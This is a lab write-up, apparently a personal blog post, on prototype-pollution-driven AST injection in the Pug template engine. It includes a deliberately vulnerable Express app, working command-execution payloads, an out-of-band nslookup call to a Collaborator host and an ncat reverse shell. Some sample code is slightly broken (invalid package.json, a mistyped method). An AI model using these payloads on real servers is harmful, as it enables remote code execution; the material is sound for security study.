

# AST Injection through Pug
---
## Table of Content
1. Story
2. Environment setup
3. What is AST?
4. Analysis Blog & Execute
5. Deep Analysis
6. References

---
## 1. Story

While challenging on interview lab on a Company. There was 3 machines that related with 3 type of vulnerabilities: `race conditioning`, `Text4Shell`, `ProtoType Pollution`, all machines are required to control the code and execute it.

After complete the lab. I am noticed on the machine Prototype Pollution and curious about how it could be control the code. So after complete all reports and summited. I asked the examiner for the way get control it. They share me a [post](https://n00b-bot.github.io/ast-injection/) related to AST Injection and Pug library related. So...Let's start to follow and research.

---
## 2. Environment setup
 - Install **NodeJS** is required, because vulnerability is based on NodeJS
 - Save bellowing `JSON` code as `package.json`

```JSON
{  
	"dependencies": {  
		"express": "^4.18.2",  
		"flat": "^5.0.0",  
		"package.json": "^2.0.1",  
		"pm2": "^5.3.0",  
		"pug": "^3.0.2" 
		"body-parser": "^1.20.2" 
	}
}
```
- Save bellowing `JavaScript` code as `index.js`
```JavaScript
const express = require('express')  
const pug = require('pug')  
const app = express()  
const path = require('path')  
  
app.use(require('body-parser').json());  
  
function isObject(obj) {  
return typeof obj === 'function' || typeof obj === 'object';  
}  
  
function merge(target, source) {  
for (let key in source) {  
if (isObject(target[key]) && isObject(source[key])) {  
merge(target[key], source[key]);  
} else {  
target[key] = source[key];  
}  
}  
return target;  
}  
  
app.get('/', function (req, res) {  
if (req.query.source !== undefined) {  
res.sendFile(path.join(__dirname + '/index.js'))  
return  
}  
const template = pug.compile(`7heknight`, {debug:true});  
res.end("<h1>hard code better than template change my mind</h1>" + template() + "<br><a href=\"?source\">Debug</a>");  
});  
  
app.get('/package.json', function (req, source) {  
res.Sendfile(path.join(__dirname + '/package.json'))  
});  
  
app.post('/vulnerable', function (req, res) {  
let object = {}  
try {  
merge(object, req.body);  
res.json(object);  
} catch (error) {  
process.exit();  
}  
});  
  
console.log("listen on port 4000")  
app.listen(4000);
```

Open [Command Prompt](file:///C:/windows/system32/cmd.exe) (Windows) or Console (Linux), go to the path where files are saved on. Then enter following command: 
\- `npm install package.json`

That's all. Go to next step.


---
## 3. What is AST?

In NodeJS, AST is used in JS really often, as template engines and typescript etc.  
For the template engine, the structure is as shown above.


If prototype pollution vulnerability exists in the JS application,  
Any AST can be inserted in the function by making it insert during the `Compiler` process.

Here, you can insert AST without proper filtering of input (which has not been properly filtered) that has not been verified by `lexer` or parser.  
Then, we can give unexpected input to the compiler.

Below is how to actually use AST Injection to execute arbitrary commands in `pug`

## 4. Analysis Blog & Execute
First up, we could not know how pug works. So I first start to follow up the code in the blog, using `compileFile` in the start

```Javascript
const pug = require('pug');

// Compile the source code
const compiledFunction = pug.compileFile('template.pug');

console.log(compiledFunction());
```
In the first line: `const pug = requrie('pug')`
I found the pug contain the object containing a lot of function inside there like `compile`, `compileFile`, `compileClient`,...


Because of starting on `compileFile` so, we get into its function to analyze.


when reach into it we found nothing interested except `handleTemplateCache()` get into it. I see it's calling `compile()`


Walk into `compile()`. I see it calling `compileBody()` and pre-define value for it. 



Walk to `compileBody`, I found they create a variable `ast` and using it in
`(findReplacementFunc(plugins, 'generateCode') || generateCode)(ast, {object})`

Follow `generateCode`, it's turn into `/node_modules/pug-code-gen/index.js`. There was 2 export.


Follow `visit()`


In `visit()`, we could see that if `node.line` exist (not validated if integer or not), then  push the code `pug_debug_line = node.line`.


To get know more, I will try to follow the exploitable code, run it, and debug it to see how its work, and then follow those format to build up the exploitable code.

```JavaScript
const pug = require('pug');  
Object.prototype.block = {  
	"type": "Text",  
	"line": "console.log(process.mainModule.require('child_process').execSync('id').toString())"  
};  
pug.compile('h1= msg', {debug: true})
```

After run, we have the Compiled result as following:

```Javascript
Compiled Function:

function template(locals) {var pug_html = "", pug_mixins = {}, pug_interp;var pug_debug_filename, pug_debug_line;try {;
      var locals_for_with = (locals || {});
      
      (function (console, msg, process) {
        ;pug_debug_line = 1;
  pug_html = pug_html + "\u003Ch1\u003E";
  ;pug_debug_line = 1;
  pug_html = pug_html + (pug.escape(null == (pug_interp = msg) ? "" : pug_interp));
  ;pug_debug_line = console.log(process.mainModule.require('child_process').execSync('id').toString());
  pug_html = pug_html + "ndefine\u003C\u002Fh1\u003E";
      }.call(this, "console" in locals_for_with ?
          locals_for_with.console :
          typeof console !== 'undefined' ? console : undefined, "msg" in locals_for_with ?
          locals_for_with.msg :
          typeof msg !== 'undefined' ? msg : undefined, "process" in locals_for_with ?
          locals_for_with.process :
          typeof process !== 'undefined' ? process : undefined));
      ;} catch (err) {pug.rethrow(err, pug_debug_filename, pug_debug_line);};return pug_html;}
```

Compares with final result **n00b-bot blog**, I recognize the the msg is not appeared on result of blog.


After debugging, I found there is the `visitCode` function that will process and put data inside of it


On debugger, I could easy to know and copy the value of `code` object.


```JSON
code = {  
	"type": "Code",  
	"val": "123",  
	"buffer": true,  
	"mustEscape": true,  
	"isInline": true,  
	"line": 1,  
	"column": 3,  
	"block": {  
		"type": "Text",  
		"line": "console.log(process.mainModule.require('child_process').execSync('whoami').toString())"
	}  
};
```


---
## 5. Build Exploitable Code
Based on debugging result. I tried to copy it and try to execute if there was expected result.


So, let us optimize the code and following the format from **n00b-bot** blog, so the Result will be liked:

```JavaScript
const pug = require('pug');

Object.prototype.block = {  
	"type": "Text",  
	"line": "console.log(process.mainModule.require('child_process').execSync('whoami').toString())"
};  

Object.prototype.code = {};
pug.compile('h1',{debug: true});
```


Applying on lab's server. I created a python file using `requests` and build the AST JSON to interact my burp collaborator.

```python
import requests  
  
TARGET_URL = 'http://127.0.0.1:4000'  
  
proxy = {  
    "http": "127.0.0.1:8080",  
    "https": "127.0.0.1:8080"  
}  
  
print(f'[+] Sending to {TARGET_URL} via POST - ', end='')  

response = requests.post(TARGET_URL + '/vulnerable', proxies=proxy, json={  
    "__proto__": {  
        "code": {},  
        "block": {  
            "type": "Text",  
            "line": "process.mainModule.require('child_process').execSync(`nslookup 468clakvyx5tkldev8pvzvc05rbiz8nx.oastify.com`)"  
        }  
    }  
})  
print(response.status_code)  
print(f'[+] Sending to {TARGET_URL} via GET - ', end='')  
response = requests.get(TARGET_URL, proxies=proxy)  
print(response.status_code)  
# print(response.content)
```

By the way, we can also use the original JSON format to exploit:

```JSON
{  
    "__proto__": {  
        "code": {  
            "block": {  
                "type": "Text",  
                "line": "process.mainModule.require('child_process').execSync(`nslookup 468clakvyx5tkldev8pvzvc05rbiz8nx.oastify.com`)"  
            }  
        }  
    }  
}
```

After running python code. I got interaction from Collaborator


Reverse Shell: 
- Listener: `ncat -lvnp 1337`
- Connector: `ncat 127.0.0.1 1337 -e cmd.exe`

```JSON
{  
    "__proto__": {  
        "code": {},  
        "block": {  
            "type": "Text",  
            "line": "process.mainModule.require('child_process').execSync(`ncat 127.0.0.1 1337 -e cmd.exe`)"  
        }  
    }  
}
```


---
## 6. References
- https://n00b-bot.github.io/ast-injection/
- https://web.archive.org/web/20210813024244/https://blog.p6.is/AST-Injection/